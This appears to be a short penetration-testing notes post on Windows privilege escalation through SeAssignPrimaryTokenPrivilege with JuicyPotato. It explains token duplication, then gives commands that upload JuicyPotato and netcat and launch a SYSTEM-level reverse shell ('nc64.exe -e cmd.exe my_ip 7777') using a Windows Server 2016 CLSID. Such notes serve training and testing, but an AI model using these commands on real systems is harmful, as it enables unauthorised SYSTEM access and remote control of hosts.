 ```yaml
---
layout: post
title:  "privilege escalation - windows -  seimpersonateprivilege / seassignprimarytokenprivilege - juicypotato"
date:   2022-01-01
categories: windows
---
```


## Windows - Privileges Escalation - SeAssignPrimaryTokenPrivilege


### Privileges


```powershell

PS C:\Users\user\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeAssignPrimaryTokenPrivilege Replace a process level token  Enabled
...

```

### Explain

SeAssignPrimaryTokenPrivilege is very similar to **SeImpersonatePrivilege**, it will use the **same method** to get a privileged token. Then, this privilege allows **to assign a primary token** to a new/suspended process. With the privileged impersonation token you can derivate a primary token (DuplicateTokenEx). With the token, you can create a **new process** with 'CreateProcessAsUser' or create a process suspended and **set the token** (in general, you cannot modify the primary token of a running process).


### Juicy Potato & Netcat

```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/JuicyPotato.exe

PS C:\Users\user\Documents> upload /home/kali/privesc/netcat/nc64.exe

PS C:\Users\user\Documents> .\JuicyPotato.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\users\user\documents\nc64.exe -e cmd.exe my_ip 7777" -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"

```

### CLSID

```text

For Windows Server 2016 Standard we will use the CLSID for winmgmt LocalService {8BC3F05E-D86B-11D0-A075-00C04FB68820} under NT AUTHORITY\SYSTEM user

````




### Resources

- https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
- http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/


